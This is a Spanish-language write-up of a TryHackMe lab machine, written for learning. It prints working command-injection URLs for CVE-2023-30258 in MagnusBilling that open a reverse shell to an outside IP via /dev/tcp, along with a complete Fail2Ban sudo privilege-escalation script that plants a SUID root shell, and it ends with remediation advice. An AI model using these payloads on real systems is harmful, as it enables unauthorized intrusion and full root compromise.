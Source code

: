 ## Documentación Ethical Hacking

### 1. Introducción

Se llevó a cabo un análisis de seguridad sobre una máquina accesible en la red interna de TryHackMe, con IP 10.10.154.92. El objetivo fue identificar vectores de ataque, explotar vulnerabilidades y obtener acceso privilegiado, documentando cada paso del proceso incluyendo intentos fallidos para futuras referencias.

---

### 2. Escaneo inicial

**Herramienta utilizada**: Nmap
**Comandos ejecutados**:
```
nmap -Pn -n -sS -p- --min-rate 5000 -oG nmap 10.10.154.92
nmap -sVC -p22,80,3306,5038 -oG os 10.10.154.92
```

**Resumen de resultados:**
```
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.56 ((Debian))
3306/tcp  open  mysql   MariaDB (acceso no autorizado)
5038/tcp  open  asterisk Asterisk Call Manager 2.10.6
```

---

### 3. Enumeración

**HTTP (puerto 80):**
- Navegación web reveló una instancia del sistema MagnusBilling en la ruta `/mbilling`.
- Inspección de scripts JavaScript y rutas web no reveló archivos sensibles.
- `robots.txt`  no contenían información útil.

**MySQL (3306):** Acceso denegado, sin banners útiles.
**5038 – Asterisk AMI:** Servicio identificado pero sin autenticación anónima permitida.
**Búsqueda de vulnerabilidades:**
- `searchsploit` no arrojó resultados relevantes.
- Búsqueda manual en Google mostró una vulnerabilidad crítica:
    - **CVE-2023-30258**: MagnusBilling posee inyección de comandos no autenticada en `icepay.php`
        - https://attackerkb.com/topics/DFUJhaM5dL/cve-2023-30258

**Vectores fallidos:**
- Fuzzing manual en directorios y endpoints de MagnusBilling sin resultados positivos.
- Uso de gobuster y wfuzz no encontró rutas sensibles adicionales.

---
### 4. Explotación
**Exploit funcional:**
Prueba:
```
http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;sleep%203;ls%20a

http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;sleep%2030;ls%20a

http://biling.thm/mbilling/lib/icepay/icepay.php?democ=test;bash -c 'bash -i >& /dev/tcp/10.6.17.22/4444 0>&1'

```
Exploit:
```
http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.6.17.22/4444%200%3E%261';%23
```
**Shell inversa establecida:**
```
nc -lvnp 4444
```
**Mejora de TTY:**
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo && fg
script /dev/null -c bash
export TERM=xterm
reset
```

**Métodos fallidos de explotación:**
- Uso de payloads con `php-reverse-shell.php` sin éxito.
- Uso directo del módulo de Metasploit sin establecer sesión.

---
### 5. Escalada de privilegios
**Usuario inicial:** `asterisk`
**Evaluación de sudo:**
```
sudo -l
```
Resultado:
```
Defaults!/usr/bin/fail2ban-client !requiretty
```
**Restricciones:**
- No se podía escribir en `/etc/fail2ban` directamente (error de permisos).
- `nano` no permitía guardar cambios sin privilegios.

**Explotación exitosa mediante Fail2Ban:**  
Condiciones cumplidas:
- Se tenía permiso de escritura en `/etc/fail2ban/action.d`.
- Se podía reiniciar Fail2Ban mediante `sudo`.

**Procedimiento completo:**
```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/

cat > /tmp/script <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script

cat > /tmp/fail2ban/action.d/custom-start-command.conf <<'EOF'
[Definition]
actionstart = /tmp/script
EOF

cat >> /tmp/fail2ban/jail.local <<'EOF'
[demo]
enabled = true
action = custom-start-command
EOF

cat > /tmp/fail2ban/filter.d/demo.conf <<'EOF'
[Definition]
EOF

sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```
**Root shell obtenida con:**
```
/tmp/bash -p
```
**Intentos fallidos de escalada:**
- Uso directo de `fail2ban-client set sshd action /tmp/...` resultó en error de validación.
- Edición directa de `iptables-multiport.conf` falló por permisos en sed temporal.

---
### 6. Hallazgos clave
- Acceso inicial no autenticado mediante vulnerabilidad crítica en `icepay.php` (CVE-2023-30258).
- Configuración insegura de Fail2Ban permitió escalar a root sin password.
- Bit SUID en `/tmp/bash` permitió acceso permanente como root tras reinicio del servicio.
---
### 7. Pasos siguientes
- Validar presencia de otras configuraciones SUID en el sistema.
- Revisar logs de `/var/log/auth.log` y `/var/log/fail2ban.log` para rastrear actividad del atacante.
- Eliminar `/tmp/bash` y restaurar configuración original de Fail2Ban.
---
### 8. Conclusión
La máquina fue comprometida a través de una vulnerabilidad conocida en MagnusBilling. Una vez dentro, se aprovechó una configuración insegura del servicio Fail2Ban para escalar privilegios. Este caso demuestra cómo una mala configuración de servicios comunes, combinada con software desactualizado, puede derivar en una toma total del sistema. Se recomienda:
- Aplicar parches de seguridad en MagnusBilling.
- Restringir permisos de escritura en `/etc/fail2ban`.
- Auditar configuraciones sudo y servicios con privilegios elevados.